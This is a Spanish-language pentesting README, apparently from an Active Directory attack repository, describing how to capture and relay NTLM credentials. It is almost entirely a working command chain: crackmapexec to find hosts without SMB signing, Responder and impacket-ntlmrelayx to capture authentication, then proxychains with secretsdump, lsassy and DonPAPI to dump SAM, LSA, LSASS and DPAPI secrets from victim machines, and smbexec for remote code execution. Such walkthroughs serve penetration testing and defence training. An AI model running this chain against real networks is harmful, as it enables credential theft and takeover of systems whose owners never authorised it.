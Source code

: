 # Capturar credenciales NTLM y redirigirlas

```
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid.gif?raw=true "Relay list")

```
# Deshabilitar las opciones SMB y HTTP de Responder y ejecutarlo
sudo python responder.py -I <Interfaz de red>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid2.gif?raw=true "Deshabilitar SMB y HHTP Ejecutar responder y ntlmrelayx")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid3.gif?raw=true "Capturar autenticaciones y guardarlas en socks)

```
# Primero modificar el puerto de la última línea de proxychains para que quede asi:
socks4  127.0.0.1 1080
# Redirigir la autenticación obtenida con tlmrelayx con proxychains pudiendo realizar diversas acciones, como por ejemplo

# Obtener SAM y LSA de los equipos víctima
proxychains impacket-secretsdump -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
# Obtener LSASS de los equipos víctima
proxychains lsassy --no-pass -d <dominio> -u <usuario> <ip víctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid4.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 1")


```
# Instalar DonPAPI con desde su github con poetry: https://github.com/login-securite/DonPAPI
# Obtener dpapi de los equipos víctima y otras como  files, browser, schedule tasks,…
proxychains poetry run DonPAPI -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid5.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 2")


```
# Obtener acceso a las carpetas del equipo
proxychains impacket-smbclient -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid6.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 3")

```
# Obtener ejecución de código
proxychains impacket-smbexec -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid7.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 4")

